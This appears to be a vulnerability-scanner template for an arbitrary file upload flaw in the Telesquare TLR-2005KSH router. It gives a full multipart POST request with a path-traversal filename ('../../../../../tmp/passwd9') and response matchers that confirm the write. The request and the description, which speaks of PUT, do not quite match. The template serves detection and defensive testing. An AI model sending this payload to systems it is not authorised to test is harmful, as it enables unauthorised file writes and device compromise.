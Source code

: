 ## Requests

### Step - 1

```
POST /upload HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------253855577425106594691130420583
Origin: {{RootURL}}
Referer: {{RootURL}}

-----------------------------253855577425106594691130420583
Content-Disposition: form-data; name="file"; filename="../../../../../tmp/passwd9"
Content-Type: application/json

MyPasswdNewData->/api/tomcat

-----------------------------253855577425106594691130420583--

```

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. application/json
- part - header

**Type - word**

- words
  1. {"result":
  2. "filename:
  3. /tmp/passwd9
- condition - and

---

# Telesquare TLR-2005KSH 1.0.0 - Arbitrary File Upload

## Description

- TLR-2005KSH is affected by an incorrect access control vulnerability. THe PUT method is enabled so an attacker can upload arbitrary files including HTML and CGI formats.
